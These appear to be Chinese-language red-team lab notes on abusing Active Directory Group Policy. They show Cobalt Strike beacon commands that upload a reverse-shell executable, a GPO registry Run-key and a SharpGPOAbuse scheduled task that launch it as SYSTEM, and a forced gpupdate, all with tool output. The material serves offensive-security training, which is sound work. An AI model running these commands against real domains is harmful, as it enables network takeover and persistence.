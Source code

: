 
把rev shell上传到靶机
```
beacon> cd \\dc-2\software
beacon> upload C:\Payloads\pivot.exe
beacon> ls

 Size     Type    Last Modified         Name
 ----     ----    -------------         ----
 281kb    fil     03/10/2021 13:54:10   pivot.exe
```



写入GPO内容，执行我们上面上传的pivot.exe
```
beacon> powershell Set-GPPrefRegistryValue -Name "Evil GPO" -Context Computer -Action Create -Key "HKLM\Software\Microsoft\Windows\CurrentVersion\Run" -ValueName "Updater" -Value "C:\Windows\System32\cmd.exe /c \\dc-2\software\pivot.exe" -Type ExpandString

DisplayName      : Evil GPO
DomainName       : dev.cyberbotic.io
Owner            : DEV\jking
Id               : d9de5634-cc47-45b5-ae52-e7370e4a4d22
GpoStatus        : AllSettingsEnabled
Description      : 
CreationTime     : 5/26/2021 2:35:02 PM
ModificationTime : 5/26/2021 2:42:08 PM
UserVersion      : AD Version: 0, SysVol Version: 0
ComputerVersion  : AD Version: 1, SysVol Version: 1
WmiFilter        : 
```

新写入的GPO可能要隔几个小时才会被刷新触发，需要马上触发执行下面命令(访问 WKSTN-2 控制台)
```
gpupdate /target:computer /force
```

# SharpGPOAbuse

[SharpGPOAbuse](https://github.com/FSecureLABS/SharpGPOAbuse)这个工具不可以创建GPO，但是可以编辑现有的GPO

下面命令编辑一条登录即可触发的GPO，并且添加了一个即时执行的定时任务

```
beacon> getuid
[*] You are DEV\bfarmer

beacon> execute-assembly C:\Tools\SharpGPOAbuse\SharpGPOAbuse\bin\Debug\SharpGPOAbuse.exe --AddComputerTask --TaskName "Install Updates" --Author NT AUTHORITY\SYSTEM --Command "cmd.exe" --Arguments "/c \\dc-2\software\pivot.exe" --GPOName "PowerShell Logging"

[+] Domain = dev.cyberbotic.io
[+] Domain Controller = dc-2.dev.cyberbotic.io
[+] Distinguished Name = CN=Policies,CN=System,DC=dev,DC=cyberbotic,DC=io
[+] GUID of "PowerShell Logging" is: {AD7EE1ED-CDC8-4994-AE0F-50BA8B264829}
[+] Creating file \\dev.cyberbotic.io\SysVol\dev.cyberbotic.io\Policies\{AD7EE1ED-CDC8-4994-AE0F-50BA8B264829}\Machine\Preferences\ScheduledTasks\ScheduledTasks.xml
[+] versionNumber attribute changed successfully
[+] The version number in GPT.ini was increased successfully.
[+] The GPO was modified to include a new immediate task. Wait for the GPO refresh cycle.
[+] Done!
```

上面命令执行完成以后，会收到很多rev shell(但是看视频演示还是要上靶机强制刷新GPO)

![alt GPOAbuse](https://rto-assets.s3.eu-west-2.amazonaws.com/group-policy/sharpgpoabuse.png?width=1920)